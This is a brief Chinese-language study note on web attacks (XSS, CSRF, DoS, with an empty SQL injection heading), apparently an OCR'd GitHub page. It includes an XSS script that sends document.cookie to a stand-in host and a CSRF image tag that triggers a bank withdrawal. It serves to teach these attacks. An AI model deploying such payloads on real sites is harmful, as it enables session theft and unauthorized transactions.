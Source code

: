 # xss攻击



跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。



类似以下的代码，攻击者可以向自己的服务器上发送一些当前网站的一些数据，如cookie

```
<script>location.href="//domain.com/?c=" + document.cookie</script>
```



# CSRF

跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。



```
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">
```



## 区别

XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。

# sql注入

# DoS
拒绝服务攻击（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。